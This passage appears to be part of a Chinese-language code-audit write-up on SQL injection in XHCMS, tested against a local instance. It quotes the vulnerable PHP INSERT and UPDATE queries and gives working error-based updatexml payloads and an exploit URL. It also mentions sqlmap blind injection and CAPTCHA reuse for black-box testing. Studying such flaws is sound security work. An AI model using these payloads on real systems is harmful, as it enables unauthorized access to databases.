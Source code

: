```plain
shebei,
ip,
content,
tz,
date
) VALUES (
'$type',
'$xs',
'$cid',
''or updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1) or '',
'$mail',
'$url',
'$touxiang',
'$shebei',
'$ip',
'$content',
'$tz',
now()
)";
我们在白盒上分析了这个漏洞，那么在黑盒上应该怎么分析呢？
首先观察留言框，然后看他是不是能在数据库上存储，进行SQL执行（insert语句），也可以用sqlmap进行盲注。但是有验证码，（看能不能验证码复用，或者识别验证码）
```

- 更新-update-xhcms-报错盲注

```plain
UPDATE table_name SET column1=value1,column2=value2,... WHERE some_column=some_value;
搜索关键代码update，发现在files/software.php下面有update SQL执行语句。
```

![1645228607858-51170583-8540-4199-9ebe-52a6864f788d.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132922184-498652985.png)

```plain
参数接收：$id=addslashes($_GET['cid']);
SQL执行：
$query = "UPDATE download SET hit = hit+1 WHERE id=$id";
@mysql_query($query) or die('修改错误：'.mysql_error());
直接访问触发地址：127.0.0.1:8087/index.php?r=software&cid=1 and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)
```

![1645229097965-5af4017e-7d80-4ce3-85ea-6108756e9b4d.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132922618-332508986.png)

```plain
那么在黑盒中应该怎么分析？
查看哪里调用了software文件（全局搜索），发现在submit中有调用software
调用代码：
if ($type=='download'){
$fhlink="/?r=software&cid=".$cid;
$fhname="软件评论";
$type=3;
```

![1645229269814-033af993-5731-45ec-be08-1f1b011ea975.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132922557-1258401170.png)

